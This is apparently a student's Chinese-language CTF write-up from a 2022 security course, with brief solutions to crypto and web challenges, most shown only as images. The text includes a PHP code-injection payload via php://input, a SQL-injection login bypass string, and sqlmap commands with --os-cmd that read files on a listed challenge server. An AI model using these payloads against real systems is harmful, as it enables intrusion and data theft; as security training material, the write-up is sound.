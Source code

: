 ```yaml
---
title: 22年网安小学期-CTF
tags: 
  - 网安小学期
  - CTF
category: WriteUP
permalink: /archives/65465/
published: 2022-07-09 16:43:47
---
```


# 木册木兰

![img](./images/1656402244227-1535d8a9-9932-489c-af63-b357e1b72be7.png)

- 下载附件，然后根据提示可以看出就是栅栏密码，所以直接解密得到

![img](./images/1656402270709-22a55c9b-fd6e-4cef-b874-ef8a6146eb6b.png)

# inputer

![img](./images/1656402323639-3d802464-d117-4c8b-99b0-2b5c96c80556.png)



- 先源码，这里要用到php://伪协议
- 直接抓包然后改包，构造`php://input`，利用`system("ls");`输出当前目录下所包含的文件，发包后发现可利用

![img](./images/1656403524194-775abc02-cd99-402a-8efb-b0be856fd9e6.png)

- 那就直接用命令`<?php system("cat /flag.txt");?>`获得flag

![img](./images/1656403931462-65c99e45-585b-4da9-aa67-ebbf7b040faf.png)

# WEB_blind_exec

![img](./images/1656418501152-cffd8b07-e4b3-4c7d-88e9-2af93a200893.png)

# LFI

![img](./images/1656425908372-f0b23cde-7697-4219-a001-09d5cd26f703.png)

# baby_sql

```
admin' or '1'='1
```

![img](./images/1656463477302-afa6aabf-6cba-40da-a6ab-9c6d651c78ce.png)

# WEB_randnum

![img](./images/1656463743749-0e0e3ae5-1757-4c23-a7d3-04eef75b7ca4.png)

# WEB_babyphp

![img](./images/1656463757900-66e0ad0f-8176-46e7-aade-bff9d0305c50.png)

# easy_getshell

- [pbot复现](https://www.anquanke.com/post/id/212603?from=groupmessage#h2-6)

![img](./images/1656489800858-4a805906-bd00-402f-b3cb-b4cba8d14c15.png)

# sessionlfi

- 源码中发现页面传参使用get方法，猜测存在sql注入漏洞

![img](./images/1656507098348-a7fb1359-f1d6-48d8-9fae-9f5423965b72.png)

> 测试payload：
>
> sqlmap -u http://218.94.60.213:13198/table.php?id=1 -dbs
>
> 爆破数据库，共有4个数据库

![img](./images/1656507233920-96f5d286-73db-44df-adf0-8dabadee487b.png)

> 使用sqlmap的-os-cmd远程执行命令，看到根目录有flag字样文件
>
> sqlmap -u http://218.94.60.213:13198/table.php?id=1 --os-cmd="ls /"

![img](./images/1656507912473-95a1f3c3-29cc-4020-9ed2-c6b1d782801b.png)

> 最后继续使用远程命令查看得到flag
>
> sqlmap -u http://218.94.60.213:13198/table.php?id=1 --os-cmd="cat /flag_asflkhasklfhaklshfkjlashfjkas"

![img](./images/1656507964485-4c6551f9-be4e-48c3-bc18-37a4f769352b.png)

# happy

- 题目：

![img](./images/1656578511408-899d4caa-da5f-4f4d-b926-301072c6807c.png)

- 解题代码：

![img](./images/1660034476965-e38a5350-cba4-4601-b203-f106b0ffc8f4.png)

# rsarsa

- 题目：

![img](./images/1656578279183-f84801df-8c4f-4b41-9c7f-6d23eced6b56.png)

- 解题代码：

![img](./images/1660034540344-f99ee9de-c416-4530-8855-8f30f950ea9f.png)
